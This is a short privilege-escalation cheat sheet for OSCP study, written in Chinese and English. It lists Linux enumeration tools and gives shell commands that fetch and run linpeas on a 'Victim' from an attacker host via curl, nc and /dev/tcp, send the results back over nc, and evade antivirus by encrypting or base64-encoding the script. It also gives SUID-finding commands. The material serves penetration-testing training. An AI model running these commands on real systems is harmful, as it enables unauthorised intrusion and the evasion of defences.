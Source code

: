 ```yaml
---
title: Privilege Escalation
tags: oscp
---
```


## GTFOBins

项目地址：<https://github.com/GTFOBins/GTFOBins.github.io> 和<https://gtfobins.github.io/>

## BeRoot

## pspy

项目地址: <https://github.com/DominicBreuker/pspy>

包含：稳定版`pspy32` 和`pspy64`和小文件版`pspy32s` 和`pspy64s`

## linpeas.sh

项目地址：<https://github.com/carlospolop/PEASS-ng> 和<https://linpeas.sh/>

```sh
# From github
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```sh
# Local network
$ sudo python -m SimpleHTTPServer 80 #Host
$ curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
$ sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
$ cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
$ nc -lvnp 9002 | tee linpeas.out #Host
$ curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```sh
# Output to file
$ ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
$ less -r /dev/shm/linpeas.txt #Read with colors
```

```sh
# Use a linpeas binary
$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
$ chmod +x linpeas_linux_amd64
$ ./linpeas_linux_amd64
```

### AV bypass

```sh
#open-ssl encryption
$ openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
$ sudo python -m SimpleHTTPServer 80 #Start HTTP server
$ curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
$ base64 -w0 linpeas.sh > lp.enc
$ sudo python -m SimpleHTTPServer 80 #Start HTTP server
$ curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## linux-exploit-suggester.sh

## linux-exploit-suggester-2.pl

## linuxprivchecker.py

## LinEnum.sh

## SUID 提权

```sh
$ find / -perm -u=s -type f 2>/dev/null
# 或者
$ find / -user root -perm -4000 -print 2>/dev/null
$find / -user root -perm -4000 -exec ls -ldb {} \;
```

参考：<https://www.freebuf.com/articles/others-articles/307232.html>
